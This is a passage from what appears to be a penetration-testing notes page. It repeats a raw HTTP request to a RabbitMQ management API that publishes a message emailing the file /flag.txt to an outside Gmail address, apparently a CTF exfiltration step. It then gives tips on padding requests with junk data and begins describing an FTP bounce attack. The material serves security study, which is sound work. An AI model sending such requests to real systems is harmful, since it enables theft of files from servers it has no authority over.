 				PNG
				POST /api/exchanges/%2F/amq.default/publish HTTP/1.1
				Host: 172.32.56.72:15672
				Authorization: Basic dGVzdDp0ZXN0
				Accept: */*
				Content-Length: 264
				Content-Type: application/json;charset=UTF-8

				{"vhost":"/","name":"amq.default","properties":{"delivery_mode":1,"headers":{}},"routing_key":"email","delivery_mode":"1","payload":"{\"to\":\"xxxxxxxxxxx@gmail.com\",\"attachments\":[{\"path\":\"/flag.txt\"}]}","headers":{},"props":{},"payload_encoding":"string"}POST /api/exchanges/%2F/amq.default/publish HTTP/1.1
				Host: 172.32.56.72:15672
				Authorization: Basic dGVzdDp0ZXN0
				Accept: */*
				Content-Length: 264
				Content-Type: application/json;charset=UTF-8

				{"vhost":"/","name":"amq.default","properties":{"delivery_mode":1,"headers":{}},"routing_key":"email","delivery_mode":"1","payload":"{\"to\":\"xxxxxxxxxxx@gmail.com\",\"attachments\":[{\"path\":\"/flag.txt\"}]}","headers":{},"props":{},"payload_encoding":"string"}POST /api/exchanges/%2F/amq.default/publish HTTP/1.1
				Host: 172.32.56.72:15672
				Authorization: Basic dGVzdDp0ZXN0
				Accept: */*
				Content-Length: 264
				Content-Type: application/json;charset=UTF-8

				{"vhost":"/","name":"amq.default","properties":{"delivery_mode":1,"headers":{}},"routing_key":"email","delivery_mode":"1","payload":"{\"to\":\"xxxxxxxxxxx@gmail.com\",\"attachments\":[{\"path\":\"/flag.txt\"}]}","headers":{},"props":{},"payload_encoding":"string"}POST /api/exchanges/%2F/amq.default/publish HTTP/1.1
				Host: 172.32.56.72:15672
				Authorization: Basic dGVzdDp0ZXN0
				Accept: */*
				Content-Length: 264
				Content-Type: application/json;charset=UTF-8

				<<<<<<<<<<<<<<<<<<<<<<<<TRUNCATED, ALL DUPLICATES>>>>>>>>>>>>>>>>

				{"vhost":"/","name":"amq.default","properties":{"delivery_mode":1,"headers":{}},"routing_key":"email","delivery_mode":"1","payload":"{\"to\":\"xxxxxxxxxxx@gmail.com\",\"attachments\":[{\"path\":\"/flag.txt\"}]}","headers":{},"props":{},"payload_encoding":"string"}
		* Try to fill the request with "junk" data relative to the protocol (talking to FTP maybe just junk commands or repeating the RETRinstruction to get the file)
		* Just fill the request with a lot of null characters or others (divided on lines or not)

##### FTP File-Bounce

* <details><summary>References (Click to expand)</summary><p>
	* [http://www.ouah.org/ftpbounce.html](http://www.ouah.org/ftpbounce.html)
	* [https://book.hacktricks.xyz/pentesting/pentesting-ftp/ftp-bounce-download-2oftp-file](https://book.hacktricks.xyz/pentesting/pentesting-ftp/ftp-bounce-download-2oftp-file)
* <details><summary>Overview (Click to expand)</summary><p>
	* If you have access to a bounce FTP server, you can make it request files of other FTP server (where you know some credentials) and download that file to your own server.
* <details><summary>Requirements (Click to expand)</summary><p>
	* FTP valid credentials in the FTP Middle server
	* FTP valid credentials in Victim FTP server
	* Both server accepts the PORT command (bounce FTP attack)
	* You can write inside some directory of the FRP Middle server
	* The middle server will have more access inside the Victim FTP Server than you for some reason (this is what you are going to exploit) 
* Process
	1. Connect to your own FTP server and make the connection passive (`PASV` command) to make it listen in a directory where the victim service will send the file
